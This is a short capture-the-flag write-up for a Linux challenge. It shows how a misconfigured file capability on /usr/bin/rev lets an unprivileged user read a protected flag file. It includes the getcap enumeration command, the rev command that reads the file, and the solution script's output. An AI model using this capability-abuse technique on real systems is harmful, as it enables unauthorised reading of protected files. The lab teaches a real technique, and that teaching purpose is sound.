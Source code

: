# Hit Me Hard

The remote system can be accessed through SSH using the non-privileged ``ctf`` user. The flag is in the ``/home/ctf/flag`` file, not readable by ``ctf``. The executable ``/usr/bin/rev`` has been granted the ``dac_read_search`` capability allowing all users (including ``ctf``) to run ``rev`` on all files, including on the ``/home/ctf/flag`` file 

# Solution

Connect through SSH to the remote host using the ``ctf`` user. You need to investigate interesting executables and features. The ``getcap -R`` command shows you executable that are granted certain capabilities:

```
  $ /sbin/getcap -r /
  /usr/bin/rev = cap_dac_read_search+ep
```

Now that you know the ``/usr/bin/rev`` executable is using the ``dac_read_search`` capability, you can use it to dump the contents of the ``/home/ctf/flag`` file and get the flag:

```
  $ /usr/bin/rev /home/ctf/flag | rev
  SIS{you_are_not_pre..._capable}
```

The solution script is ``sol/extract``; enter the ``sol/`` folder and run the ``extract`` script:

```
  $ ./extract
  SIS{you_are_not_pre..._capable}
  galf ver/nib/rsu/ ;ftc/emoh/ dc 22 p- 751.422.58.141@ftc hss nwaps
   :drowssap s'751.422.58.141@ftc
  SIS{you_are_not_pre..._capable}
```
